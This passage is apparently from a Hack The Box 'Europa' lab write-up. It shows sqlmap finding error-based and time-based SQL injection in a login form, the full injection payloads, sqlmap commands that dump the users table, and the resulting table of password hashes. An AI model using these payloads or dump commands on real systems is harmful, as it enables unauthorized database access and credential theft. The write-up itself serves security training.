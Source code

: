 ```console
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: email=whatever' OR (SELECT 7770 FROM(SELECT COUNT(*),CONCAT(0x7171717071,(SELECT (ELT(7770=7770,1))),0x717a7a6a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- 	 apkS&password=whatever

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: email=whatever' OR SLEEP(5)-- ZTnM&password=whatever
---
[05:37:17] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 (xenial)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0
[05:37:17] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'

[*] shutting down at 05:37:17

``` 
SQLmap clearly tells us that the webpage is vulnerable. Chaining these commands we are able to extract needed information:

* sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" --dbs
* sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" --tables -D admin
* sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" --tables --columns -D admin -T users
* sqlmap -u https://admin-portal.europacorp.htb/login.php --data "email=whatever&password=whatever" -D admin -T users --dump password

<div class="notice--info">
  <h4>Tip:</h4>
  <p> Check out <a href="http://www.binarytides.com/sqlmap-hacking-tutorial/">this</a> cheatsheet if you want to learn SQLmap! </p>
</div>

Eventually, SQLmap will obtain password hashes for you which can then be [cracked](https://hashkiller.co.uk/md5-decrypter.aspx).
```console
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```
<img src="/assets/img/blog/htb-europa/htb-europa-07.png">

